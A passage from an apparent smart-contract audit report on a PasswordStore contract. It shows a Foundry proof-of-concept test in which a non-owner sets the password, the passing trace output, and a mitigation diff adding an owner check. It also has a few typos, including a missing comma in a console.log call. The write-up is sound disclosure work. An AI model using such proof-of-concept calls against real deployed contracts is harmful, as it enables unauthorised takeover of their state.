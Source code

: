The following test, sets the password to `"attackerPassword"` using the attacker address. When run, this test will pass, demonstrating that the attacker can set the password:

```solidity
    function test_poc_non_owner_set_password() public {
        // initiate the transaction from the non-owner attacker address
        vm.prank(attacker);
        string memory newPassword = "attackerPassword";
        // attacker attempts to set the password
        passwordStore.setPassword(newPassword);
        console.log("The attacker successfully set the password:" newPassword);
    }
```

Run the test:

```bash
forge test --mt test_poc_non_owner_set_password -vvvv
```

Which yields the following output:

```bash
unning 1 test for test/PasswordStore.t.sol:PasswordStoreTest
[PASS] test_poc_non_owner_set_password() (gas: 20776)
Logs:
  The attacker successfully set the password: attackerPassword

Traces:
  [20776] PasswordStoreTest::test_poc_non_owner_set_password()
    ├─ [0] VM::prank(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   └─ ← ()
    ├─ [6686] PasswordStore::setPassword(attackerPassword)
    │   ├─ emit SetNetPassword()
    │   └─ ← ()
    ├─ [0] console::log(The attacker successfully set the password: attackerPassword) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.36ms
```

## Recommended Mitigation

Include access control to restrict who can call the `setPassword` function to be only the owner: `s_owner`. This can be achieved in two ways:

1. Using an `if` statement, as used in the `getPassword` function, and revert with the `PasswordStore__NotOwer()` custom error if the address calling the function is not the owner:

```diff
    function setPassword(string memory newPassword) external {
        // @audit check that the function caller is the owner of the contract
+        if (msg.sender != s_owner) {
+            revert PasswordStore__NotOwner();
+        }
        s_password = newPassword;
        emit SetNetPassword();
    }
```
